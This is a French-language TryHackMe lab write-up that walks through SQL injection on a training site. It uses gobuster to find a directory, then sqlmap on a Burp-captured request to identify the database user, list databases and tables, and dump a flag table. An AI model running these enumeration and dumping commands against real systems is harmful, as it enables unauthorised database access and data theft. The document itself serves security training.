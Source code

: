 # TryHackMe : SQLMap

Ce TD permet de découvrir SQLMap et d'essayer d'automatiser des tests d'injections SQL.

## Manipulations

Tout d'abord, le plus utile est de regarder les différentes options de SQLMap.

`sqlmap -h`

![sqlmaph](./images/sqlmaph.png)

Ensuite, le reste des manipulations a pour objectif de trouver un flag dans un site non sécurisé.

Pour trouver le dossier intéressant, on utilise habituellement dirb mis cette fois-ci, ce dernier ne fonctionne pas. Alors à la place, comme recommandé par TryHackMe, on va lancer le logiciel gobuster.

`gobuster dir -u http://10.10.38.157 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t64`

![gobuster](./images/gbuster.png)

Il nous trouve le dossier `/blood`.

Maintenant, on récupère une requête POST vers ce site grâce à Burp et on la stocke dans un fichier `req.txt`.

Pour connaître l'utilisateur connecté à la BDD.

`sqlmap -r req.txt -p blood_group --current-user`

![user](./images/user.png)

Donc l'utilisateur actuellement connecté est `root` et on connait à présent que c'est une base de donnée MySQL 5. Ce qui est utile puisqu'on peut préciser ce paramètre à SQLMap afin d'affiner l'attaque.

Maintenant, récupérons les BDD, tables et notre flag.

`--dbms` précise le type de BDD, `--technique` précise le type d'injection SQL et `--dbs` liste les BDD.

`sqlmap -r req.txt -p blood_group --dbms MySQL --technique U --dbs`

![dbnames](./images/dbnames.png)

On va principalement s'attarder sur `blood`.

`sqlmap -r req.txt -p blood_group --dbms MySQL --technique U -D blood --tables`

![table](./images/tables.png)

Il ne reste plus qu'à afficher ce qu'il y a dans la table `flag`.

`sqlmap -r req.txt -p blood_group --dbms MySQL --technique U -D blood -T flag --dump`

![flag](./images/flag.png)

Et voilà, nous avons notre flag.

Réponse aux questions :

![q1](./images/q1.png)

![q2](./images/q2.png)

